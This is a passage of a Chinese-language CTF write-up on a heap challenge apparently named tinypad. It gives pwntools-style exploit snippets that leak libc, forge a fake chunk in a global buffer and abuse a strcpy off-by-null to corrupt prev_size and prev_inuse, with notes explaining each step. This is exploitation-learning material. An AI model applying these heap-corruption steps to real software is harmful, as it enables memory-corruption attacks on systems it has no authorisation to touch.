```python
print('libc_base='+hex(libc_base))
```

### 补充
#### strcpy 的漏洞
`strcpy` 在遇到`\x00`空字节截断的时候会把这个空字节也拷贝过去



```python
add(0x18,b'a' * 0x18)
add(0x100,b'b' * 0xf8 +b'\x11')
add(0x100,b'c' * 0xf8)
add(0x100,b'd' * 0xf8)
```

这里的`\x11`的原因：

在后面覆盖 chunk2 的 prev_size 的时候，为了利用 off by null 修改 chunk2 的 prev_inuse 位，会把原本是 0x111 的 size 直接覆盖成 0x100，

如果不在 chunk3 里面伪造一个小 chunk，在检查 heap 的时候会出问题：

在原本 chunk2 的开头地址加上 size 偏移的地方并不是另外一个 chunk（接着 size 检查下去会出错）

其实就相当于把原来的 chunk2 拆成了两个 chunk，一个是被改后的 0x100 size ，一个是伪造的 0x11 size 的



```python
tinypad_addr = 0x602040
fakechunk_addr = tinypad_addr + 0x20
fakechunk_size = 0x101
fakechunk = p64(0)+p64(fakechunk_size)+p64(fakechunk_addr)+p64(fakechunk_addr)
edit(3,b'd'*0x20 + fakechunk)
```

利用 chunk3 在 tinypad 伪造 fakechunk



```python
diff = heap_base + 0x20 - fakechunk_addr
log.info('diff between idx1 and fakechunk: ' + hex(diff))
# '\0' padding caused by strcpy
diff_strip = p64(diff).strip(b'\0')
number_of_zeros = len(p64(diff)) - len(diff_strip)
for i in range(number_of_zeros + 1):
    data = diff_strip.rjust(0x18 - i,b'f')
    edit(1, data)
delete(2)
link.recvuntil(b'\nDeleted.')
```

用 fakechunk 跟 chunk2 地址的距离覆盖 chunk2 的 prev_size，这里用循环而不是直接`p64(diff)` 的原因：

1. 题目是用 strlen 从 chunk 里面获取可以编辑的长度的，所以原本申请 chunk 的第一次输入就把 chunk 用非空字节填满了，包括 chunk2 的 prev_size
2. 直接用`p64(diff)`的话，地址的确写进去了，但是第一：没处理掉本身 prev_size 这八个字节高地址的初始化非空字节，prev_size 是不对的；第二：因为 strcpy 遇到空字节会截断，传完地址就截断了，没有填满 prev_size 域从而利用 off by null 篡改 chunk2 的 prev_inuse 位
3. 其实可以前面几次可以不带地址，最后一次再把地址写进去，循环的目的是为了置空 chunk2 的 prev_size 高字节和 size 的低字节
